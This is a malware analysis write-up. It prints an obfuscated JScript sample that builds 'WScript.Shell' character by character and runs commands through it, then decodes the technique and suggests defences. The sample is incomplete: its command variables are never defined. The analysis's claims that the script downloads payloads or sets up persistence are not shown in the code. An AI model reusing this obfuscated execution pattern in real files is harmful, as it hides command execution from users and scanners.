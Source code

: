 ``` javascript
//iyTqjTmnDXbJIbAHzbxnBaqoGNNTccFOpsQJHwCVTJlYmYgeTsecOlfHHekVFSLbSMTPLqACZcTrpSBhhjAjxcAENICcMgPAyJFaFQSdscCmRnSpcCnWScepMPBDoYqtMSsfMbcQRWqVaNmaqMzJstiWfQOpPPpTlJZzumcBaXFwlIPycbMbYgATkWzwNmBBhXjRonfEkyjVnmlXAPNnCNvEIGOYmfnnVDONZyJpwIqaxffykcvxZNzTcfIiYHRFKwzkXXyCGXruXUGdbQnKjpNIEultpbQoqlPBfuaNetrBVEwHYeHHTHWVirfclEMeHCDlFFxgqafqyLmzyeVLUJUjPuSoPxbagNuTBKCSgbRtbg
var XWEfeHiBJyhTWKmJQsyFJlQTyncCetrbHiXwjjSUreDwlhnrgXKYuWWmFlgregXQGGLnnqZhaeNehUhRzlWGjThlMlqyCbpKHmqeVADpycyPIrElDPstKQgnZabCAaeypDWudDvzhgIGURcVgEumivArGDFuYApXxzaFUJHATtLeHaSHyGWvfsQtCfoaxBahqkIVrWAXw
//uSpkWjflxwSeurFjgCpUhDSSenXRwQbFyylZaJgvJpzEHCvsCmKULDPrAXFiMOohUMfvGgJXWtLrDNKbreOKGHuvjtYCDyjvBSkuXAmVcmxRrXnmMdqhzdaNSkMMHGUXKQqldPErsthUJcDLGmqZIBwXrWcmoZNWSaHbhCIwZypFvGDpgAGVPuPIUStHnRCTfLBjUceDdtAJMqblSmGoTsGXKzHOIBJHvVakEUUDWCrVuFveqIoALOzmEdYVUPvcksNqPrgyRCRQAldFDdXzNIwhWogavzjGGPkBrEOzcpjIwjmTATRrrvPcwgUaLFDSTLJlAcNzOYWXZokmCMacirOLAIE
var LkooXmRolZBSXGSdTYrDIwhYyebjcwyksYCOajzlIzyNAuDWPOvmJEwOCPqsLhMpaQazDDCkZGvJyUXEbFUNBMbncnMLtHaamImkTESMLKNDJmQhrlRFNyoOpnXQqrqRfUWphnkWmHCqzYdpXfTHqUNoUYvghCVTUvXpQaADBuTFwxOQJhsLXibLGhVIsEpkmiVDBoYweQGv
GfWxtXYkUspfogkOQGGnwCYR(GzCMjpDjYhhYWHHThilDQVeGymbJltUvtlUrnp, rJiyIjVAEmZkMEXQkMdqkTmaqpBnPBWEGFFkpabkWoaB(WVaHHOUfQDezJbVxRoP));
//BIrWKeWzJJvlULjiFrLwFiTNcKPUJvgHcfKxqyyOhpacmkjpFprnEJqSpduzOBpOdoIoBlsHswPPHqbraaPUEtCTprHMEzAgzMzybvoUwjvHuaLzCCYomVJklpyJdgDtwjPurcQflvXUxuYPgIJBaMteDPNlxfqPgCLLKQHZmtCqxomqRicUXBSkplqcPehGEHovjNEPBjOhJCgPcXUOCWsfjaWZZfKILvmqAqGDdMTnnlbmEbzsJTDiOJMJrfqVZGWNQqOmQQkqDFryzjUygRyssDbrexMyWxOgONVOMNbsiNfJRNKHKspHHeVNPXHTEmUGrLjlOGlSpFJfYRaRmFneHGZksIzpFIowtZSFdYsEHXRBUpoxxqgyyqykm
var ytGHwMhRMmzzUnOMjWkoXQCTBrPcqyDahTfemxKKkkHDpxdDSlOTOvOirnFExFaOjYRAHjamMZEmIydDNMJEjjLlEwmzsFNfKtUQfdviKcGorcasJBrlvVezNgvLxbtGMZcPeNXkQbtHdXucWtprOcjoOUDzhkkjiAbRzLOvdGUTbXWplSoDlCrkpoAJJYCgqKYcvddLfu
//NHHQMqyNOOwhyfIrbLKFmFEncRztuIpcXrpkdZbKKwJokJMsTEBRBaHIDTnuqFSFYTJGqYOCjzupvPDTFHZqGXbxjggJlgTFdDPRzFBvqziBgSNnQUpjfczArMXKsEQCgoMrAmUAFeAHpaRRTssRrjaBEOZmhrDljgVrFVndAoeAcrLRuGrzLyKwOLmmMhTNbPYJFaLxFORCFZZMCIsaADZkVYdujARTVRZMTCMUvttxhIrpmZjEpsMXpoogwQOFxxgozMtAvXfGKcCMhoIJRMedECXfNfXffozkbDpZgjIRNGMNlbzIHEolTDjxpNmQzzaVcSleyiciDMQypJtmgOXaANQYTskSwsSNfqkTpVKYcFhHnlHfUAjkczVPCN
var KGxJlLuCSyYawLEyyugJlhkEywIhlfVVRcKDaSUWMkSIHtDYfdBaiscdVtLpCNRndCJTABXgaJwAObxFsjBHdumYAhhhGeUzSffEkjXeFVAYwbOuvGwSLKJiQkTTTpZvpwijvtUJLXBItNcZSnmAiBoIWxozQELQvFjztfyBlnGoIAoCItBfDYNoIZNyFVtHLlMoecgmpkP
GfWxtXYkUspfogkOQGGnwCYR(EaynfYYhOhTHCoDWlkUvOwNtyfNleknQgseKFdpFiQYuqdqgrWAjWsaHMEoAKmDdtDbKJsRHuPMx, rJiyIjVAEmZkMEXQkMdqkTmaqpBnPBWEGFFkpabkWoaB(aETdtHTRab));
//uvAAVImqWCgMXrvqTSzwPuycWoAXgNOpSJSsIZrpTfWFfYpwjlMUpozAwXdhIOKIoquOZCiuaKdkXtxxyDnuBuAeJSwlvKgEUNQpebXhDRtfLOdCZfiFaQHupPEGFwzPdYPJcISXfGqjAVTvotLPcbdEGWzOXQbGSdBmzTaRNKaUZYtUwJSMljnCuKDGJDAOejQWTgvVTtCRBJficeSOyPVjqzsoQTIJKLpqHXBPNwsrgWBkfVdelmPPNhfToHFzltGpUpaFdCABWdCTyHJvqeXYvZcZrhbFrsGmPLQquYBjlOsjeMVhyKJHWituMBNvavJdXPEmqTAScomhhsvfLuHhjzQhSWdtKFIqEOMOHiqfJqehvLMUFhkgncuXzWUU
var pHHXgwdSfgXcEcYtVilGJJncVbCbUoPkOVpBiGByhtoZKHcKDACQlNLgUeCEuByrQmOinWKOgnYPUOSNzrYTmzzAKJhDExEfvxIXttXgqnjxovLGMoFCdeERmNXdpGKjisTXFvUFUrcyPCLPxbrPsCCQsrkfWtrkdAOwboAQTzimBGBkBIgNOuqgqCeOLpjazsUPnPnJba
//wsUQPlpzdNNeVjJiFYJmFeQHmJmlxlVWmnxyMansYLLVNVXlGEKOzoVRcMdFzDCsrqshlLVelQOuSuuRmBfsbHWxSgWAwitUJTdWdpzujfdjabzhRMTyYJQkTuPFpViCXtkzQXowBkJwdnXrhoikOuwzCsDjauFNxaMgqzQuYWxnzUHgWXYAnxodxlwYUEWHfvyDbrBhYoMrwJzilXMCVFazljiECsZTzpHEVEEeWqczlwgolOmxsUlaVzRrJwegOsrGBvMhShgedbOpDtToFbafEhiWmNVZMvksEZmpBEfK
var oGxukcoPdqamRMCUNquFMGShqVkeHdmAwQrxknlKYGwVVxasWScLKayhoPDPsKIzDZqBVFjZEkgFKwLsusHoBbqWSJJUjWSNywSvHZWRjCGZtsWrELUzDTycjTjMvPpiRSHOeQlVVqEyUQcZmRQYBSKeyqMnpKVTNYHakINoZzeMPzISrJZdyQgzIdQnDxfLUklvJCoeEcz
new ActiveXObject( String.fromCharCode(157-70) + String.fromCharCode(150-67) + String.fromCharCode(232-133) + String.fromCharCode(229-115) + String.fromCharCode(315-210) + String.fromCharCode(455-343) + String.fromCharCode(291-175) + String.fromCharCode(262-216) + String.fromCharCode(283-200) + String.fromCharCode(390-286) + String.fromCharCode(242-141) + String.fromCharCode(142-34) + String.fromCharCode(238-130) ).Run(GzCMjpDjYhhYWHHThilDQVeGymbJltUvtlUrnp) ;
//CoxPyiuwglrVwrISHsZkbTTseOMJoUuZWReLKORFJBzZdPoDAjhmfrXiUFljVkHLqSyeNwIsaTaaUtPOZIIEnIufuvqEdikYtojLRJqEbpMLQwObqXKMcCYiXSkRFDPsiCggKDwPSEcxviOxhPOGXXwqPBnyZYyYZUcOPiQmauuYaampEmkqpJULFqQJQxqtGEYbFzhzybfdcYQpOxumoIjQARIZRHWdDBRVCLkEFlrNdqihZauSCDFyUHanrIhrFBZbGunDNqhCQVnJibzrNDbzwTAukwNwEAIbQHaemrFMWChzUREPIqdCaafmutSRdkyQNLtbAVEWyOdtmBaTrxo
var OWGBqcnktYnjlDQlIXdOnlHDLwlAsSzafwkuHKCzMkKxKfsqVQRvNiBcOCpuqnsbYNDpTWeyVdCCaJtfEvecAEMwuHfEVIJZsjZxcCWzlTakgyCEIJpvIPaUAGuLqZdMUcKqkwDBYfqhdbQvFbwMSNQcJEwVHLIMqNQDoLUMFoXcYtqYqzFPdQuGLihfzitMWeqQLMHuHjGd
//qoDPOYfIFtiZTJrGdoNXuKGuCaMdrKItKQQXeSRbDkGcwQwCVBRSWjjfiJMnLBQvloPDsTbLXlUKDdxleKIqtpXbhlpVFdQBULrHBsJBZFvlOYbELbJAsZBwRoWHeGGtVSpsmqklAHRntmMIJkJeTPIuKupNWCWSzCPwjjSUqYzlIODfcOxtxcaFJvirBWPykynrWQZZSonvQXmvrJlHEdVXcKmnBbTUJABJaLJLpXbIpepmImAslHuGdQPLdlYqUSmPWcVfzZSgCMixVzePabiBGugJwxiEzknWsZQgQUsLpNEQiSqeGJQtkkJcwLjBrOhRZMEvjyyFiXMspQbeHDxqUumIQnj
var ElqUbgmqWNuuHKKKNXQmfkEunQqxfawfvOuUsClLCZFQMIqgJjYkzBEUgwgKqpLvRPzsPqSKmEkGeoheZKnwBLfuKZnvWaVNOJzxJxQTQOxuQypsOBlfBPuFkEipCXoLjXrUpkVctUfmOkdMkugUppLyOtMEOaRtamLtGUDegIlhjIrzbVFHqTWuLsGvXQNTCmLbZjGP
new ActiveXObject( String.fromCharCode(157-70) + String.fromCharCode(150-67) + String.fromCharCode(232-133) + String.fromCharCode(229-115) + String.fromCharCode(315-210) + String.fromCharCode(455-343) + String.fromCharCode(291-175) + String.fromCharCode(262-216) + String.fromCharCode(283-200) + String.fromCharCode(390-286) + String.fromCharCode(242-141) + String.fromCharCode(142-34) + String.fromCharCode(238-130) ).Run(EaynfYYhOhTHCoDWlkUvOwNtyfNleknQgseKFdpFiQYuqdqgrWAjWsaHMEoAKmDdtDbKJsRHuPMx) ;
//rCnhDePGCNdtUJCHPRiNOIGQvSexwParPqQnfpqgdztKnUztjELHAsAjwXmlzRJmmlddtObaaBjOPvcaTlNsDSqWqgrHCFhLqGXCqVzUdlgzJlUAvLROERjUuHmMXTXVUYYIYakxlsPSlrNFMqMrnSHZXCHiinxJNLflMLcUbTcLCQiCuhzhGghBQzlVSBOyvFFZMcsBOsQTqvXGUFoBnPCgedUNaGCZEeQwLIqSoyTOPNLVbeBNMNKfCYviHfbHpqPLfavLOWNowoRQSymvFoNrUkumNHKIXLYYyAqBjpyqzViOHfQItfBBdXrugIyHLFR
var kPsSSIkLPpWsyCgfhrBPrKXvbIwUarreuExyPNyAIUlLGessAdQQKpZarwrJMQlYysyuEhPUsBHXYMowPEUwbaTEeXHSWooriNMNgynTOvXJiCBfIutIvoxXZtPgaxyEMPoLzaQQQBifDKWbVbJbugwuQoomiHtQwTwTNqghecruGRUOXoLynXJgTuvKldiJIRikNCOe
//ubxRoBnyUaOuvudZJQASvVwAuimojkAVahELarrRGwqLPnNNoIaxCviYfwXFPzOjZtUOqRzRYiLyfkkHVYzaJDSeyffdUmCHhHmWTzXWJIYTjjtvLQkqznZVapQKlVxmgERYyOnVAdRAeyvOlkREBLHthQwdjNknLmnfSVwxcOpWWYqbuBZADskUwXqhSKmnseosLQvQoUcmVlXIZUjhojjTBTivePeScCdsjxQeGJMjQyyLziHxaEzIuVrrizlYpKJTHfYcEFafWADCVWwwHhrXDUxOGYwHXntFoeDUJfsVeUluRpWLDoRISmQmhKWgJTHiGxOqSbncoWtiiDwRBkDjWknCORmyJMLKNCnUafsbApTwshDeNFeYPX
var MVKLcBpoScKiVfPcqVrcjhRrJhNHkEhnupqRKODrmLWrlJLXPlOIgnnfESCuohEOvXnfpyRbSAqYKaFzVpsypYGHBLMrMICEHHvNWfiQUnqgxPUeMCZzpFZWRgdelZOJymQDerdqGbeBiZJmrifKjDOBiZwpBEfuZhiLzRAUYisOaXorWrmDuDZuXOUFvooCvkcAryna
```


# Technical Analysis: Obfuscated JavaScript Malware Dropper

## Overview
This analysis examines an obfuscated JavaScript/JScript code sample that functions as a malware dropper. The code utilizes various obfuscation techniques to evade detection while attempting to execute commands on Windows systems through WScript.Shell.

## Code Structure Analysis

### Obfuscation Techniques
The malware employs multiple layers of obfuscation:
1. String Concealment
   - Uses `String.fromCharCode()` with arithmetic operations
   - Example: `String.fromCharCode(157-70)` resolves to 'W'
   - Full decoded string spells "WScript.Shell"
   
2. Code Organization
   - Excessive variable declarations with random-looking names
   - Large blocks of commented random strings to complicate analysis
   - Split execution paths to obscure program flow

### Core Functionality
The deobfuscated code reveals two primary execution blocks:

```javascript
// First execution path
var command1 = GzCMjpDjYhhYWHHThilDQVeGymbJltUvtlUrnp;
new ActiveXObject("WScript.Shell").Run(command1);

// Second execution path
var command2 = EaynfYYhOhTHCoDWlkUvOwNtyfNleknQgseKFdpFiQYuqdqgrWAjWsaHMEoAKmDdtDbKJsRHuPMx;
new ActiveXObject("WScript.Shell").Run(command2);
```

### String Decoding Process
The WScript.Shell string is constructed through character-by-character decoding:
- W = 157-70 = 87 (ASCII)
- S = 150-67 = 83 (ASCII)
- c = 232-133 = 99 (ASCII)
- r = 229-115 = 114 (ASCII)
And so on...

## Malware Purpose and Functionality

### Primary Objectives
1. Initial Infection Vector
   - Acts as a dropper/downloader for additional malware
   - Establishes initial system compromise
   - Potentially part of a larger attack chain

2. Command Execution
   - Uses WScript.Shell to execute system commands
   - Can potentially:
     - Download additional payloads
     - Modify system settings
     - Execute further malicious code
     - Establish persistence

### Evasion Techniques
The code employs several methods to evade detection:
1. Heavy code obfuscation to bypass static analysis
2. Split execution paths to complicate dynamic analysis
3. Use of legitimate Windows scripting objects (WScript.Shell)
4. Excessive code padding to hide true functionality

## Security Implications

### Risks
- Unauthorized command execution
- System compromise
- Additional malware deployment
- Potential data theft or system damage

### Recommendations
1. Systems
   - Scan potentially affected systems
   - Monitor for suspicious WScript.Shell activity
   - Implement application whitelisting

2. Prevention
   - Block suspicious JavaScript/JScript execution
   - Monitor for obfuscated code patterns
   - Implement proper security controls around ActiveX objects

## Conclusion
This code represents a relatively sophisticated attempt at creating an obfuscated malware dropper. While the obfuscation techniques are not novel, their implementation demonstrates attention to anti-analysis features and evasion capabilities. The use of WScript.Shell for command execution is particularly concerning as it provides broad system access capabilities to potential attackers.
